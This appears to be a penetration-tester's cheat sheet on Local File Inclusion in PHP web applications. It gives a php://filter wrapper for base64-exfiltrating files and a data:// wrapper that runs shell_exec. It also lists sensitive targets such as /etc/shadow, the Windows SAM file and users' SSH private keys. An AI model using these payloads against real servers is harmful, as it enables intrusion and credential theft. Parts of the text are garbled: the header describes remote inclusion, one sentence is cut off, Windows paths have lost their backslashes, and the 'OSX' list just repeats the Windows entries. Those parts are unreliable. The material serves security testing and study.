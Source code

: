 ```yaml
---
description: >-
  A remote file inclusion vulnerability allows an attacker to remotely execute a
  script on the target machine even if it's not available locally.
---
```


# Local File Inclusion (LFI)

### Example

If we want to get a file then it is best to base64 encode it. This will ensure that we can exfiltrate files rather than have Apache read the file. This can be accomplished with the following command:

```php
php://filter/convert.base64-encode/resource=[FILE]
```

Additionally, the following command demonstrates  how we could execute code if&#x20;

```bash
data:text/plain,<?php echo shell_exec("dir") ?>
```

The sections following lists common but interesting files to look at when testing for Local File Inclusion:

### Linux

```
/etc/issue
/proc/version
/etc/profile
/etc/passwd
/etc/passwd
/etc/shadow
/root/.bash_history
/var/log/dmessage
/var/mail/root
/var/spool/cron/crontabs/root
```

### Windows

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### OSX

```
%SYSTEMROOT%repairsystem
%SYSTEMROOT%repairSAM
%SYSTEMROOT%repairSAM
%WINDIR%win.ini
%SYSTEMDRIVE%boot.ini
%WINDIR%Panthersysprep.inf
%WINDIR%system32configAppEvent.Evt
```

### Additional Notes

* Sometimes during Local File Inclusion, the web server appends something like ‘.php’ or '.config' to the included file. For example, including ‘/etc/passwd’ gets rendered as ‘/etc/passwd.php’. This occurs when the include function uses a parameter like _?page_ and concatenates the .php extension to the file. In versions of PHP below 5.3, ending the URL with a null byte (%00) would cause the interpreter to stop reading, which would allow the attacker to include their intended page. Additionally, this can be observed if you're host a SimpleHTTPServer with Python.
* If you have LFI on a Linux host, you may be able to access the `.ssh/id_rsa` file of any identified users.

### References

* [File Inclusion Vulnerabilities - Offensive Security](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/)
